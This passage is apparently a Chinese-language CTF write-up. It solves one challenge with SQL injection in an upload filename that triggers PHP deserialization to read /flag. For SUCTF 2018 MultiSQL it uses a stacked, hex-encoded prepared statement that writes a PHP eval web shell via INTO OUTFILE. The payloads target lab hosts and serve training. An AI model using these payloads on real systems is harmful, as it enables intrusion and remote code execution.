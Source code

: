 ```php
<p><a href="upload.php">Upload Images</a></p>

</body>
</html>
```

insert\_array 的时候存在 sql 注入, filename 可控, 然后结合 Get\_All\_Images 时的 unserialize 来反序列化 helper 类, 利用 \_\_destruct 方法读取 flag

```php
<?php
class helper {
    protected $ifview = True; 
    protected $config = "/flag";
}

echo str_replace(chr(0).'*'.chr(0),'\0\0\0',serialize(new helper()));

?>
```

注意属性必须得是 protected 的, 并且 00 字符替换要按照题目代码里面的来

测试发现 filename 不能存在 `/` 字符, 于是改成 hex, 即

```
123','1','1','1',0x4f3a363a2268656c706572223a323a7b733a393a225c305c305c30696676696577223b623a313b733a393a225c305c305c30636f6e666967223b733a353a222f666c6167223b7d);#.jpg
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211231206868.png)

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211231206297.png)

## [SUCTF 2018]MultiSQL

查询用户信息处存在盲注

```
http://506b995f-192c-4444-b540-0908e8922e84.node4.buuoj.cn:81/user/user.php?id=2-1
```

用户名处应该也有个二次注入的, 没继续研究

盲注用异或来连接, 可以读文件, 但跑的时间很长

根据题目提示改成了预编译, 估计过滤了一些字符, 于是转成十六进制

结合上传头像时图片保存的路径 /favicon, 猜测该目录可写 (网站根目录没有权限)

直接利用预编译语句 into outfile 写 shell

```
http://506b995f-192c-4444-b540-0908e8922e84.node4.buuoj.cn:81/user/user.php?id=1;set @a=0x73656c65637420273c3f706870206576616c28245f524551554553545b315d293b3f3e2720696e746f206f757466696c6520272f7661722f7777772f68746d6c2f66617669636f6e2f78782e70687027;prepare st from @a;execute st;
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211231238168.png)
